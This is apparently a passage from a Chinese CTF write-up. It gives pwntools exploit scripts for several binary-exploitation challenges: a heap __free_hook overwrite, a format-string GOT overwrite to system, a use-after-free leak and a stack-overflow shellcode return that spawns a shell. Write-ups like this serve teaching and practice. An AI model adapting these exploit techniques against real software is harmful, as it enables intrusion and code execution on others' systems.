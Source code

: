 ```python
add(7,flat(0,0xa1)) # above 1

free(1)
show(1)
base = uu64(r(6))-88-libc.sym['__malloc_hook']-0x10
leak('base',base)
free_hook = base + libc.sym['__free_hook']

edit(4,p64(free_hook))
edit(1,p64(base+0x4526a))
free(2)
```

## easyfmt

常规的 32 位格式化字符串题，自动化测得偏移为 6，然后泄露 libc，覆盖 `printf@got` 为 `system`。

```python
ru('?\n')
def exec_fmt(payload):
	sl(payload)
	info = r()
	return info
auto = FmtStr(exec_fmt)

sl(p32(elf.got['printf']) + '%6$s')
r(4)
printf = u32(r(4))
leak('printf',printf)
base,libc,system = leak_libc('printf',printf)
sl(fmtstr_payload(auto.offset, {elf.got['printf']:system}))
sl('/bin/sh\x00')
```

## fgo

入门级堆题，直接 uaf 即可。解法可以参考 `hitcontraining_hacknote`。
```python
add(0x20)
add(0x20)
free(0)
free(1)

add(0x8,p32(elf.sym['secret']))
show(0)
```

## soEasy

存在栈溢出，给出了栈地址，checksec 发现 NX 关闭，因此直接写好 shellcode 然后返回到 shellcode 地址即可。

```python
ru('0x')
buf = int(ru('\n'),16)
payload = asm(shellcraft.sh()).ljust(0x4c,'a') + p32(buf)
sla('?',payload)
```
